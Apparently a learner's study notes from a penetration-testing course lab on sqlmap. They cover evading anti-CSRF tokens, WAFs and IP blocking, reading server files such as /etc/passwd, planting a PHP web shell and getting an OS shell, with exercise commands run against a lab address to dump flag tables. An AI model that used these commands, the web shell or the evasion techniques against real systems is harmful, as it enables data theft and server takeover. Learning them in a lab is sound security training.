

# Bypassing web app protection:
There won't  be any protection deployment on the target side in an ideal scenario, thus not preventing automatic explotation. We can expected problems when running an automated tool of any kind such a target. Many mechanias are incorportate
in SQLMAP, which can help us.

- ANTI-CSRF token Bypass:
One of the first lines of defense against the usage of automatic tools is the incorporation of ANTI-CSRF tokens into all HTTP requests, espcially those generated as
a result of web-from filling.
In most basic terms, each HTTP request in such a scenario should have a valid token value avaliable only if the user actually visisted an used the page.
While the original idea was the prevention of scenario with malicious links, where just opening these links would have undesired consequences for unaware logged-in users.
This security ft alos inavertenly hardened the app against the automation.

SQLMAP has options that can help in bypassing ANTI-CSRF protection, the most important option is [--csrf-token]. By specifying the token parameter name , wll automaticallyu attempt to parse
the target response content and search for fresh token values so it can use them in the next request.

Additionally, even in a case where the user does not explicity specify the tokens name via --csrf-token. If one of the provided parameter contains any of the common infixes, the user will be prompted whether to
update it in futher request:
` sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"`

- Unique Value Bypass:
In some cases, the web app may not only required unique values to be provided inside prodefined parameters. Such a mechanim is similar to the anti-CSRF tech describeed above, expect that there is no need to parse the web page content.
By simply ensuring that each request has a unique value for a predefined parameter, the web can ez prevent CSRF attempts while at the same time averting some of the automation tools. The option [--randomize] should be used, pointing to the
parameter name contaning a value which should be randomized before begin sent:
`sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI`

- Calculated Parameter Bypass:
Another similar mechanism is where app expects a proper parameter value to be calculated based on some other perameter values. One parameter value has to contain the message digest[h=MD5(id)] of another one.
To bypass this, the option[--eval] should be used, where a valid Python code is begin evaluated just before the request es begin sent to the target:
`sqlmap -u http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI`

- IP Address COncealing:
In ca we want to conceal our IP addr, or if a certain web appp has protection mechanismthat blacklist our current IP addr, we can try to use a proxy or the anonymity network TOR. A proxy can be set with the option [--proxy] where we should add a working
proxy.
If we have a list of proxies, we can provide them to SQLmap with the option --proxy-file. Sqlmap will go sequentially throught the list, and in case of any problems, it will skip form current to the next form the list.
The other option is TOR network use to provide an ez to use anonymitzation, where our ip can apper anywhere form a large list of tor exit nodes.
When properly installed on the local machine, there should be a SOCKS4 proxy service at the local port 9050 or 9150. Using switch [--tor], SQLmap will automatically try to find the local port and use it appropriately.

If we wantes to be sure that Tor is properly begin used, to prevent unwanted behavior, we could use the switch  --check-tor.

- WAF Bypass:
We run sqlmap, as part of the initial test, SQLMAP sends a predefined malicius looking payload usina a non-existent parameter name [?pfov=] to test the existence of a WAF.
There will be a substancial change in the reponse compared to the original case of any protection between the user and the target. If one of the most popular WAF solutions [Mod security], there should be a [406 - Not Acceptable] response after such a request.
In case of the positive detection, to identify the actual protection mechanism, SQLmap uses third-party library [identYwaf](https://github.com/stamparm/identYwaf), continuning the signatures of 80 different WAF solutions.
If we wanted to skip the heuristical altogether we can use [--skip-waf].

- User-agent Blacklisting Bypass:
In case of immediate problems while running sqlmap, one of the first things we should think if the potencial backlisting of the def user-agent by SQLmap.
This is trivial to bypass with the switch [--random-agent], which changes the default user-agent with a randomly chosen value form a large pool of values used by browsers.

> [!NOTE]
> IF some form of protection is detected during the run, we can expect problems with the target, even ther security mechanims. The main reasin is the continuos development and new improvements in such protection, leaving smaller and smaller space for attacks.

- Tamper scripts:
One of the most popular mechanims implemented in SQlmap for bypassing WAF/IPS solution is the so-called "tamper" script. Tamper scripts are a special kind of python script written for modifying requests just before sent to the target, in most cases
to bypass some protection.
The most popullar script [between](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/between.py) is replacing all occurrences of greater then operator > with NOt BETWEEN 0 AND #, and the equals operator = with BETWEEN # AND #.
Tamper script can be chained, one afther other, within the --tamper option [--tamper=between, randomcase] where they are run based on their predefined priority. A prioity is predefined to prevent any unwanted behavior as some scripts modify payloads by modify payloads by
modifying their SQL syntax [ifnull2ifisnull.py](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/ifnull2ifisnull.py).
The most tamper 
For get the list of all tampers use [--list-tampers].

- Miscellauneous Bypasses:
The first one is the chinked trasfer encoding, turned on using the switch [--chunked].
To other bypass mechinsm is the HTTP parameter pollution(HPP) where payloads are split in similar way as in case of chunked between different  same parameter name value.
[?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...].

Exercise:
Case 8 - anti-CSRF: sqlmap -u  --data="" --csrf-token="csrf-token"
We can use the commnad --csrf-token o un the c.txt post the token on POST request.
❯ sqlmap -r /home/../../../../c.txt --csrf-token=t0ken -T flag8 --dump --risk=3 --level=5 --batch
Case 9:
Random uid
sqlmap -r /home/../../../../case4.txt -T flag9 --level=5 --risk=3 --batch --randomize=uid --dump

Case 10
sqlmap -r /home/../../../../case4.txt  -T flag10 --dump --batch --level=5 --risk=3

Case 11:
sqlmap -r case4.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10
For choose the tamper script we must see the error page and see if are block
id=1'    → ¿da error 403?
id=1--   → ¿da error?
id=1+OR+1=1 → ¿funciona?

# OS Explotation:
- FIle Read/Write:
This first part of OS explotation through an SQL injection vulnerability is reading data on the hosting server. Reading data is much more common than writing data, which is strictly privileged in modern DBMSes, as it can lead to system explotation.
The DB user myst have the privileged to LOAD DATA and INSERT, to be able to load content os a file to a table and the reading that table.

`LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`
While we do not necessarily need to have database admin privilege to read data, this is becoming more common ion modern DBMSEs. The same applies to other common db. Still if we do have DBA privilege, then it's more probable athat we have a file-read privilege.
Checking the DBA privilege with sqlma using the flag [--is-dba]
`sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`
As we can see we get current user is DBA: False meaning that we do not have DBA access. If we tried to read file usin SQLmap, we would get something like:
`[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved`

To test OS explotatio, lets try an exercise in whihc do have DBA privilege, as seen in the question:
`sqlmap -u "http://www.example.com/?id=1" --is-dba`
The current user is DBA: True, meaning have the privilege to read local file.

- Reading local file:
Sqlmap makes it relatively ez to read local file with the [--file-read]: `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`
Then we can see file saved to a local file:
cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

- Writing Local Files:
When it comes to writing gfile to the hosting server, it becomes much more restricted in modern DMBSes, since we can utilize this to write a WebShell on the remote server, and hence get code execition and takes over the server.
This is why modern DBMSes disable file-write by def and need certain privileges for DBA to be able to write files. The [--secure-file-priv] configuration must be manually disable to allows writting data into local file using INFO OUTLINE Sql query,
in addition to any local access needed on the host server, like the privilege to write in the direcory we need.
May web app require the ability for DBMSes to write data into file, so it's worth testing whether we can write files to the remote server.
We can use th [--file-write and --file-dest] options. ` echo '<?php system($_GET["cmd"]); ?>' > shell.php`
Set in the web server: `sqlmap -u ... --file-write "shell.php" --file-dest "/var/html/shell.php"` then we can execute the code with curl: `curl http:../shell.php?cmd=ls+-la`

- OS Command Execution:
Sqlmap utilize various techniques to get a remote shell, SQl queries directly execute OS command, like [xp_cmdshell]. To get the shell use the flag [--os-shell].
We see that defaulted to UNION techniques to get and OS shell, eventually failed to give us any outpuet No output. Then lest try other technique like Error-Based SQL injection wich flag is [--technique=E]:
`sqlmap -u ... --os-shell --technique=E`
> [!NOTE]
> SQLmap firt asked fot the type of languahge used on this remote serverm wich er know is PHP, Then it's asked us fo the server web root dir, and we ask SQLmap to automatically find it common location. Would have been automatically chossem we add --batch.

Exercise:
1.  Try to use SQLMap to read the file "/var/www/html/flag.txt".
sqlmap -u 'http://83.136.251.68:34806/?id=1' --file-write "shell.php" --file-dest "/var/www/html/shell.php"

2.  Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.
sqlmap -u 'http://83.136.251.68:34806/?id=1' --os-shell --batch
cat ../../../flag.txt
